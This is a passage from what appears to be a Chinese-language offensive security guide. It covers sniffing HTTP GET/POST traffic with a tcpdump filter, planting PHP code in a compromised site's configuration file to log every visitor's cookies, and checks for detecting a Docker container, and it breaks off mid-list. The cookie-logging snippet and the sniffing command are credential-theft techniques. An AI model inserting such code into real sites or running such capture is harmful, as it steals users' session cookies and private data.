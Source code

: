 ```plain
tcpdump -i eth1 -s 0 -A 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x47455420 or tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504f5354'
```

## 网站文件

除了使用抓包工具去进行敏感信息的抓取，我们还可以在网站本身去做一下手脚。  
比如网站是 php 的，那我们可以在配置文件文件中，插入恶意代码，获取 Cookie 等信息，下面是代码示例：

1.  `<?php`
2.  `$fp = fopen('/var/www/html/site/cookies.txt', 'a');`
3.  `fwrite($fp,json_encode($_COOKIE).PHP_EOL);`
4.  `fclose($fp);`

# 云安全

现在越来越多的业务开始上云，使用容器部署业务，那随之而来的也是对应的安全风险，包括不限于未授权访问、命令执行等漏洞。

## docker

### 判断是否是 docker 环境

-   进程数很少，比如少于 10 条  
    ![image-20201209185320827](assets/1700701638-a076af108e3b34f7d5c411aad724f8cb.png)
-   常见的命令却没有，如没有 wget 命令  
    ![image-20201209185457364](assets/1700701638-e7817170afbc14a1a941fc0eabe5d785.png)
-   存在/.dockerenv 文件  
    ![image-20201209185515825](assets/1700701638-6acc9f4567584d16f75c073e5897c402.png)
-   /proc/1/cgroup内包含”docker”字符串  